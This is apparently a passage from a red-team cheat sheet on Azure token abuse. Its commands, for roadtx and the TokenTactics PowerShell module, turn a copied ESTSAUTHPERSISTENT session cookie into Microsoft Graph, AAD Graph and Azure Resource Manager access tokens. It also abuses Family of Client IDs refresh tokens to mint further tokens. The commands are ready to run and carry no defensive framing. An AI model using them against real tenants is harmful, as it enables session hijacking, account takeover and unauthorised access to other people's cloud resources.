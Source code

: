 ```
roadtx interactiveauth --estscookie "0.Aa4Aq..." --resource msgraph

$GraphAccessToken = (cat .roadtools_auth| ConvertFrom-Json).accessToken
```

#### Get access token info
```
roadtx describe
```
- Or decode it in https://jwt.io, get access token with `(cat .roadtools_auth| ConvertFrom-Json).accessToken`

#### Retrieve other access tokens
- Abuses [FOCI](#Family-of-Client-IDs-(FOCI)-FRT-Abuse)
- Use the `--resource` parameter to choose which azure resource
	- `msgraph`    - https://graph.microsoft.com/
	- `aadgraph`   - https://graph.windows.net/
	- `azurerm`    - https://management.core.windows.net/

```
roadtx gettokens --refresh-token file --resource azurerm

$ARMAccessToken = (cat .roadtools_auth| ConvertFrom-Json).accessToken
```

```
roadtx gettokens --refresh-token file --resource aadgraph

$AadGraphAccessToken = (cat .roadtools_auth| ConvertFrom-Json).accessToken
```

### TokenTactics
#### Get MSGraph Access Token
- https://github.com/rotarydrone/TokenTactics
- For some reason [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2) didn't work for me
- Copy the `ESTSAUTHPERSISTENT` cookie, also try the `ESTAUTH` cookie after!

```
Import-Module C:\Tools\Azure\TokenTacticsEST\TokenTactics\TokenTactics.psd1

Get-AzureTokenFromESTSCookie -ESTSAuthCookie "<ESTSAUTHPERSISTENT cookie>" -Client MSTeams
$response

$GraphAccessToken = $response.access_token
```

- From the response we can see its a FOCI token
```
...snip
foci           : 1
.../snip
```

#### Get other access tokens
- Abuses [FOCI](#Family-of-Client-IDs-(FOCI)-FRT-Abuse)

